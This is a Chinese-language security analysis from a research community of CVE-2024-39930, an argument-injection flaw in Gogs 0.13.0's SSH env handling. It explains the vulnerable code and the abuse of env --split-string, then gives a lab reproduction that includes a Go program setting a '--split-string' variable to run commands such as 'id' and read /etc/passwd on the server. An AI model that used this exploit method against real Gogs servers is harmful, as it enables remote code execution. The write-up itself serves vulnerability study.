# CVE-2024-39930 漏洞分析-先知社区

> **来源**: https://xz.aliyun.com/news/18421  
> **文章ID**: 18421

---

## 漏洞描述

Gogs（Go Git Service）是GOGS团队的一个基于Go语言的自助Git托管服务，它支持创建、迁移公开/私有仓库，添加、删除仓库协作者等。

Gogs 0.13.0 版本存在安全漏洞，该漏洞源于内置 SSH 服务器允许在 internal/ssh/ssh.go 中注入参数，从而导致远程代码执行。

## 漏洞分析

Gogs的ssh.go中的处理ssh请求代码的部分源码

```
for req := range in {
    payload := cleanCommand(string(req.Payload))
    switch req.Type {
    case "env":
        var env struct {
            Name  string
            Value string
        }
        if err := ssh.Unmarshal(req.Payload, &env); err != nil {
            log.Warn("SSH: Invalid env payload %q: %v", req.Payload, err)
            continue
        }

        // Sometimes the client could send malformed command (i.e. missing "="),
        // see https://discuss.gogs.io/t/ssh/3106.
        if env.Name == "" || env.Value == "" {
            log.Warn("SSH: Invalid env arguments: %+v", env)
            continue
        }
        _, stderr, err := com.ExecCmd("env", fmt.Sprintf("%s=%s", env.Name, env.Value))
        if err != nil {
            log.Error("env: %v - %s", err, stderr)
            return
        }
```

这段代码是处理ssh连接中的env请求的相关代码

当使用ssh连接的时候 设置相关客户端请求设置的环境变量

**什么是env请求?**

SSH 协议允许客户端在“打开通道之后，执行命令之前”通过 env 请求向服务器发送环境变量设置。

当使用ssh命令连接通道的时候，可以用SendEnv指令指定环境变量发送



这个说明在向服务器发送ssh连接的时候会如果存在变量名为LANG或者以LC\_开头的环境变量就会通过 env 请求向服务器发送环境变量设置

服务器收到这个请求之后就可以利用这些值进行相关的环境变量设置

源码中使用com.ExecCmd("env", fmt.Sprintf("%s=%s", env.Name, env.Value))将环境变量名、 与值通过 fmt.Sprintf拼接到env 命令后面然后通过 com.ExecCmd()执行相关代码。 这里fmt.Sprintf返回的字符串都会以参数的形式传入内核，不会经过shell解析。无法通过直接拼接命令来进行命令执行



但是env命令有一个-S, --split-string=S参数可以将带空格的字符串拆分为命令及其参数来执行



当我们执行 env --split-string="cat /etc/passwd"的时候, 实际上执行的命令就是cat /etc/passwd



那么如果我们在进行ssh连接的时候请求设置一个--split-string=<command>的命令

在fmt.Sprintf()拼接后 com.ExecCmd执行 的命令不就变成了env --split-string=<command>从而导致命令执行漏洞

## 漏洞复现

|  |  |
| --- | --- |
| **Go版本** | **Gogs版本** |
| 1.22.5 | 0.13.0 |

**安装Go**

```
# Download Go
wget https://go.dev/dl/go1.22.5.linux-amd64.tar.gz

# 如果已经由Go的话通过删除 /usr/local/go 文件夹来删除所有以前的 Go  
rm -rf /usr/local/go && tar -C /usr/local -xzf go1.22.5.linux-amd64.tar.gz

# 将/usr/local/go/bin添加到PATH环境变量中.
export PATH=$PATH:/usr/local/go/bin

# 检查是否安装成功
go version
```

**安装一个PostgreSQL数据库**

```
sudo apt install -y postgresql postgresql-contrib

#检查PostgreSQL数据库的状态
sudo systemctl status postgresql

#启动PostgreSQL数据库
sudo systemctl start postgresql

#将PostgreSQL数据库加入开机自动启动
sudo systemctl enable postgresql
```

默认情况下PostgreSQL会创建一个postgres的用户，该用户对整个PostgreSQL实例具有完全管理访问权限。

现在为该用户设置密码

```
# 切换到postgres用户
sudo -i -u postgres

# 连接PostgreSQL数据库
psql

# 给数据库用户 postgres 设置或修改密码
\password postgres
```

**安装Gogs**

```
# 从 GitHub 上克隆 gogs 仓库的 v0.13.0 分支
git clone -b v0.13.0 --depth 1 https://github.com/gogs/gogs.git

cd gogs

# 使用 Go 编译当前目录下的 main包程序，输出一个名为 gogs 的可执行文件。
go build -o gogs

# 启动gogs
./gogs web
```

编辑internal/ssh/ssh.go处的源码，加上一些日志打印信息



然后修改custom/conf/app.ini文件将日志级别设置成Trace



运行gogs 进行相关配置

一定要打开ssh



然后注册一个用户登录进去

然后在用户 - > 用户设置 - > SSH密钥中添加自己的ssh公钥

新建一个仓库





一定要保证gogs的ssh服务是开着的



通过ssh git clone一下刚才建的仓库



通过日志看payload成功的传进来了

现在遇到一个新的问题

我们需要一个--split-string=<command>这样子的环境变量

但是在linux中环境变量名中不能包含特殊的字符，比如-



那么现在遇到一个新的问题

如何设置一个带有-字符的环境变量名呢?

首先我尝试了使用C语言中的setenv函数

```
#include"stdio.h"
#include <stdlib.h>

void execute_command(const char *command) {
    char buffer[128];
    FILE *fp;
    
    fp = popen(command, "r");
    if (fp == NULL) {
        perror("popen failed");
        return;
    }
    
    while (fgets(buffer, sizeof(buffer), fp) != NULL) {
        printf("%s", buffer);
    }
    
    if (pclose(fp) == -1) {
        perror("pclose failed");
    }
}


int main(){
    const char *name = "--split-string";
    const char *value = "cat /etc/passwd";
    if (setenv(name,value, 1) != 0) {
        perror("setenv failed");
        return 1;
    }
    execute_command("env");
    return 0;
}
```

很遗憾，在实际的测试用 这个端代码并没有成功设置 --split-string=<command>的环境变量

然后我又尝试了使用Go语言进行环境变量的设置

用了以下的代码

```
package main

import (
    "fmt"
    "os"
    "os/exec"
)

func executeCommand(cmdStr string) {
    fmt.Println("Executing command:", cmdStr)

    cmd := exec.Command("bash", "-c", cmdStr)
    output, err := cmd.CombinedOutput()
    if err != nil {
        fmt.Printf("执行失败: %v
", err)
    }
    fmt.Print(string(output))
}

func main() {
    fmt.Println("start....")
    envVarName := "--split-string"
    envVarValue := "id"

    os.Unsetenv(envVarName)

    err := os.Setenv(envVarName, envVarValue)
    if err != nil {
        fmt.Printf("设置环境变量失败: %v
", err)
        return
    }

    value := os.Getenv(envVarName)
    if value != "" {
        fmt.Printf("环境变量设置成功: %s=%s
", envVarName, value)
    } else {
        fmt.Printf("环境变量设置失败: %s
", envVarName)
        return
    }
    executeCommand("env")

}
```

这次成功的设置了环境变量



后续我们只需要在 这个环境变量的条件下 对仓库进行git clone即可

不过最重要的一点，就是在执行命令之前要修改攻击者本机的/etc/ssh/ssh\_config中SendEnv的值



然后我们就可以日志中看到 我们的payload成功的传进来了



由于源码中没有 接收命令执行的结果

修改一下源码将命令执行的结果打印出来



重新编译源码之后，然后再次重复上面的操作

现在就可以看到命令的输出了


